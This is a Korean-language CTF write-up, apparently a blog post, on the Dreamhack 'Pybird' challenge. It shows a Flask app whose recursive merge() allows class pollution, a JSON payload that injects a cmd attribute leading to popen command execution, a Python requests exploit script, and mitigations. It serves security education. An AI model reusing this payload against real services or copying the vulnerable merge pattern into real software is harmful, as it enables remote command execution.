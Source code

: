 ```yaml
---
title: "[CTF] Pybird"
date: 2025-09-19 22:20:00 +0900
categories: [CTF, Web]
tags: [CTF, Deserialization, Object Injection, Python]
description: "드림핵 Pybird"
author: "송지민"
toc: true
---
```


## 문제 개요

이번 문제는 Flask 기반의 간단한 멤버 관리 서비스이다. 역할(role)에 따라 다른 클래스 인스턴스를 생성하고, `principal` 역할인 경우에만 추가로 `merge()` 함수를 호출해 JSON(또는 form)으로 전달된 값을 객체에 병합한다. 이 병합 로직이 객체 속성을 임의로 덮어쓸 수 있게 설계되어 있어, 공격자가 `principal` 객체에 임의의 어트리뷰트를 주입하면 서버 측에서 해당 어트리뷰트를 사용해 명령을 실행할 수 있다.

* 취약 페이지: `/add_member` (POST, JSON 또는 form)
* 명령 실행 경로: `/execute` → `principal.command()` → `popen(command)`
* 취약점 핵심: `merge(src, dst)`가 사용자 입력을 객체에 재귀적으로 주입하여 임의 속성(예: `cmd`)을 추가 가능
* FLAG 위치: 서버 상의 `flag.txt` (예시)

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py`의 핵심 부분이다.

```python
from flask import Flask, request, jsonify, render_template, redirect, url_for
from os import popen

app = Flask(__name__)

class Student:
    def __init__(self, name):
        self.name = name
        self.role = "student"

class Teacher(Student):
    def __init__(self, name):
        super().__init__(name)
        self.role = "teacher"

class SubstituteTeacher(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "substitute_teacher"

class Principal(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "principal"

    def command(self):
        command = self.cmd if hasattr(self, 'cmd') else 'echo Permission Denied'
        return f'{popen(command).read().strip()}'


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

principal = Principal("principal")
members = []
members.append({"name":"admin", "role":"principal"})

@app.route('/execute', methods=['GET'])
def execute():
    return jsonify({"result": principal.command()})

@app.route('/add_member', methods=['GET', 'POST'])
def add_member():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
        else:
            data = request.form
        name = data.get("name")
        role = data.get("role")
        if role == "principal":
            new_member = Principal(name)
            merge(data, new_member)
        ...
        members.append({"name": new_member.name, "role": new_member.role})
        return redirect(url_for('index'))
```

---

## 내가 실제로 푼 방법

핵심은 `merge()` 함수가 JSON 입력을 받아 `Principal` 객체의 속성을 사용자 입력으로 덮어쓰도록 허용하는 점이다. 이 동작을 이용하면 `principal` 객체에 `cmd` 어트리뷰트를 추가하여 `/execute` 호출 시 임의 명령을 실행시킬 수 있다.

### 공격 아이디어 요약

1. `/add_member`에 JSON으로 `role="principal"`을 주고, 구조체 형태로 `cmd` 값을 깊은 위치에 끼워넣어 `merge()`가 `Principal` 인스턴스에 `cmd` 속성을 설정하게 한다.
2. `/execute`를 호출하면 `principal.command()`가 `self.cmd`를 읽어 `popen()`으로 실행하므로, 예: `cat /flag.txt` 같은 명령 결과를 JSON으로 얻을 수 있다.

### 내가 사용한 페이로드

아래 페이로드는 JSON 바디로 `/add_member`에 POST하는 형식이다.

```json
{
  "name": "Exploited",
  "role": "principal",
  "__class__": {
    "__base__": {
      "__base__": {
        "cmd": "cat /flag.txt"
      }
    }
  }
}
```

* 이 페이로드는 `merge()` 호출 과정에서 `setattr()`을 통해 `principal` 객체에 `cmd` 어트리뷰트가 추가되도록 유도한다.

### 재현 예시

```python
import requests
base_url = 'http://<target>:5000'
payload = {
    "name": "Exploited",
    "role": "principal",
    "__class__": {
        "__base__": {
            "__base__": {
                "cmd": "cat /flag.txt"
            }
        }
    }
}
resp = requests.post(f'{base_url}/add_member', json=payload)
print(resp.status_code, resp.text)
# 이후
resp = requests.get(f'{base_url}/execute')
print(resp.json())
```

---

## 재현 흐름

1. 공격자: `/add_member`에 위 JSON 페이로드로 POST → `merge()`로 인해 `principal.cmd`가 설정됨
2. 공격자: `/execute` 요청 → `principal.command()`가 `self.cmd` 실행 → 명령 결과 반환(예: flag)

---

## 왜 이게 가능했나

* `merge()`는 외부 입력을 신뢰하고 객체의 속성을 그대로 덮어쓴다(심지어 재귀적으로).
* `Principal` 클래스의 `command()`는 `self.cmd`가 존재하면 이를 실행하도록 설계되어 있어, 외부에서 `cmd`를 주입하면 임의 명령 실행이 가능하다.
* 입력 검증, 허용 속성 화이트리스트, `merge()`의 안전한 구현이 없기 때문에 객체 인젝션(Object Injection) 취약점이 발생한다.

---

## 완화 및 권장 대책

* **절대 사용자 입력을 객체의 속성으로 직접 주입하지 말 것.** 특히 `setattr()` 같은 함수를 통해 내부 객체 상태를 변경하지 말자.
* **화이트리스트 방식의 속성 필터링**: 허용된 키와 값의 타입만 병합하도록 제한하라.
* **직렬화/역직렬화 안전**: 신뢰할 수 없는 JSON을 클래스 인스턴스로 직접 매핑하지 말 것.
* **원격 명령 실행 구조 제거**: `popen()` 등은 최소 권한/승인된 입력만 받도록 하거나 완전히 제거.
* **로그 및 모니터링**: 의심스러운 객체 변경과 관리자 권한 조작 시도 탐지.

---

## 마무리

Pybird 문제는 Python 객체 병합 로직의 위험성을 잘 보여주는 사례다. 외부 입력으로부터 객체 속성을 덮어쓰는 행위는 곧 권한 상승 및 원격 명령 실행으로 이어질 수 있으므로, 설계 단계에서부터 엄격한 입력 검증과 속성 제어가 필요하다.